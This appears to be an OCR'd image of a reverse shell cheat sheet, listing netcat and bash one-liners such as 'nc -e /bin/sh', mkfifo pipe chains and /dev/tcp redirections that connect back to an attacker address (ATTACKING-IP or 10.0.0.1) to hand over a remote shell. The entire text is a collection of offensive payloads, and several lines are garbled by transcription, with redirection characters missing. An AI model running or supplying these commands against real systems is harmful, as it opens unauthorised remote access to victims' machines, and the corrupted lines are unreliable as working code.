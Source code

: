# Reverse Shell Cheat Sheet

## Netcat Reverse Shells

> **nc -e /bin/sh 10.0.0.1 1234**

> **/bin/sh | nc ATTACKING-IP 80**

> **rm -f /tmp/p; mknod /tmp/p p && nc ATTACKING-IP 4444 0/tmp/p**

If you have the wrong version of netcat installed, Jeff Price points out here that you might still be able to get your reverse shell back like this:

> **rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f**

## Bash Reverse Shells

> **exec /bin/bash 0&0 2>&0**

> **0<&196;exec 196<>/dev/tcp/ATTACKING-IP/80; sh <&196 >&196 2>&196**

> **exec 5<>/dev/tcp/ATTACKING-IP/80**
>
> cat <&5 | while read line; do $line 2>&5 >&5; done**
>
> **or**
>
> **while read line 0<&5; do $line 2>&5 >&5; done**

> **bash -i >& /dev/tcp/ATTACKING-IP/80 0>&1**
